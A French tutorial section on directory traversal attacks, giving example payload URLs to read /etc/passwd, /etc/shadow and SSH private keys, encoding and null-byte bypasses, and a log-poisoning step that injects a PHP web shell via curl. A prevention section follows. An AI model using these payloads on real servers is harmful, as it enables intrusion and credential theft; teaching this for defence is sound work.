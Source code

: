 ### **1. Parcours de répertoires (Directory Traversal)**  
#### **Objectif** :  
Accéder à des fichiers ou répertoires sensibles en dehors du répertoire racine du serveur web (ex. : `/etc/passwd`, logs système, configurations).

---

#### **Techniques d’exploitation** :  
1. **Utilisation de séquences spéciales** :  
   - `../` (dot-dot-slash) pour remonter dans l’arborescence :  
     ```url
     http://victime.com/loadfile.php?file=../../../../etc/passwd
     ```  
   - `%00` (Null Byte Injection) pour bypasser les filtres :  
     ```url
     http://victime.com/include.php?page=../../../../../etc/passwd%00
     ```  
   - Encodage alternatif (UTF-8, URL) :  
     - `..%5C` (Windows), `..%2F` (Linux), `..%c0%af` (encodage UTF-8).  

2. **Exploitation via des vulnérabilités dans les scripts** :  
   - Inclusion dynamique de fichiers en PHP :  
     ```php
     include($_GET['page']); // Exemple de code vulnérable
     ```  
   - Accès à des fichiers de configuration :  
     ```url
     http://victime.com/config.php?file=../../config/database.inc.php
     ```  

3. **Cas réels** :  
   - Accès au fichier `/etc/shadow` pour extraire des hachages de mots de passe.  
   - Lecture de logs Apache (`/var/log/apache/access.log`) pour injecter du code PHP.  

---

#### **Exemples pratiques** :  
- **Vol de clés SSH** :  
  ```url
  http://victime.com/download.php?file=../../../../home/user/.ssh/id_rsa
  ```  
- **Exécution de code via logs** :  
  1. Injecter du code PHP dans un log via une requête HTTP malveillante :  
     ```bash
     curl "http://victime.com/<?php system($_GET['cmd']); ?>" 
     ```  
  2. Accéder au log via Directory Traversal pour exécuter la commande :  
     ```url
     http://victime.com/include.php?file=../../var/log/apache/access.log&cmd=whoami
     ```  

---

#### **Prévention** :  
1. **Validation stricte des entrées** :  
   - Bloquer les séquences `../`, `..%5C`, `%00`.  
   - Utiliser des fonctions comme `realpath()` en PHP ou `Path.GetFullPath()` en .NET pour normaliser les chemins.  

2. **Sandboxing** :  
   - Limiter l’accès à un répertoire spécifique via `chroot()` en Linux ou des permissions système strictes.  

3. **Journalisation et détection** :  
   - Surveiller les tentatives via des logs :  
     ```bash
     grep "directory traversal" /var/log/apache/access.log
     ```  
   - Utiliser des IDS (Intrusion Detection Systems) comme **Snort** pour détecter les patterns malveillants.  

4. **Bonne pratique de développement** :  
   - Éviter les inclusions dynamiques non sécurisées (ex. : `include($_GET['page'])`).  
   - Utiliser des identifiants uniques (UUID) au lieu de noms de fichiers prévisibles.  

---
